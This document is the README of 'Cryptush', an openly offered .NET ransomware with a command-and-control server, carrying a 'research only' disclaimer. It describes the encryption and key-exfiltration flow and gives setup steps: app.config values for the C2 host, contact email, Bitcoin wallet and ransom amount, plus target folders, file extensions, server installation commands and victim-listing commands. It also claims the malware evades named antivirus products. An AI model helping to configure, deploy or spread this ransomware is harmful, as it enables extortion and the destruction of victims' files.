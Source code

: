 # Cryptush
An open-source .NET Ransomware

For research and threat simulations purposes only! I'm not reponsible for any malicious uses of this tool.

<p align="center">
    <img src="https://i.imgur.com/zuUXyET.png">

</p>

## The Flow

    1- A symmetric AES (256bit) key is generated.

    2- Documents are collected from predefeind directories including its sub-directories.

    3- The key is encrypted with a static public RSA key and sent to the C2 server.

    4- The C2 server returns an GUID for identification and logs the details to CryptushServer.log

    5- The encryption key is then deleted from memory on the victim host and a window is presented including a decryption option and a 24 hours timer.
    

## Notes

* The ransomeware will not run in there's no communication to the C2 server. 
A reconnect attempt will be made every 30 seconds.

## Help

* You can view details about the encrypted victims using the "list" command (hostname, username, launch time, time left for payment, etc.).

* You can view details about the encrypted files on each victim using the "files" command.

## AV Tests

* Kaspersky - PASS
* CrowdStrike - PASS


## Dependencies

* Client - .NET Framework 4.8
* Server - .NET core 5.0


## Getting Started

* Edit the app.config file inside the Cryptush folder with your details:

    <add key="ServerIP" value="ec2-3-68-73-27.eu-central-1.compute.amazonaws.com" />
    <add key="ServerPort" value="443" />
    <add key="Email" value="yuval555@gmail.com" />
    <add key="BtcWalletAddress" value="bc1qxy2kgdygjrsqtzq2n0yrf2493p83kkfjhx0wlh" />
    <add key="BtcAmount" value="0.035" />
    
* Select the folders to be encrypted in Cryptush.cs, the default is:

```
        public static string[] paths = {
            $"{desktopDir}\\test",
        };
```

* The default extensions are:

```
            var extensions = new List<string> { ".xls", ".doc", ".ppt", ".pdf", ".txt" };

```

You can change them in Cryptush/lib/Collector.cs


## Installing the server on Linux

```
wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update
sudo apt install -y dotnet-runtime-5.0
sudo dotnet CryptushServer.dll --ip=* --port=443
```

